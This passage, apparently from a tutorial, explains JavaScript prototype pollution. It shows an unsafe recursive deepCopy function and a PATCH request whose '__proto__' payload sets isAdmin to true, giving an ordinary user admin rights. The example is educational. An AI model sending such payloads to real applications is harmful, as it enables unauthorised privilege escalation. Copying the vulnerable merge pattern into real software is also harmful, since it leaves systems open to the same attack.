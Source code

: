 and
assume the admin is created in similar way, 
but then it has an additional logic:
```jsx
var username = "Admin_Zenik";
var password = "I_am_admin";
var bio = "angry ukrainian rap-singer";

let admin = new User(username, password, bio);
...
//some logic that makes admin - isAdmin=true;
if (!admin.isAdmin){
admin.isAdmin = true;
}
//then admin logic.
```

    

```jsx
function deepCopy(dest, src) {
  for (var key in src) {
    if (!src[key] || typeof src[key] !== 'object') {
      dest[key] = src[key];
      continue;
    }
    if (!dest[key] || (typeof dest[key] !== 'object' && typeof dest[key] !== 'function')) {
      dest[key] = {};
    }
    deepCopy(dest[key], src[key]);
  }
  return dest;
}

deepCopy({}, insecureInput);
```

As well as the application allows users to update their user fields an attacker
could send a request with the following input knowing the application does not:
sanitize the input properly:
```plaintext
PATCH /users/example
Content-Type: application/json


{
    "username": "Mykola_Parasiuk",
    "password": "does_not_matter",
    "bio": "I am a simple user, a happy family guy.",
    "__proto__":{
			"isAdmin": true			
}
}
```
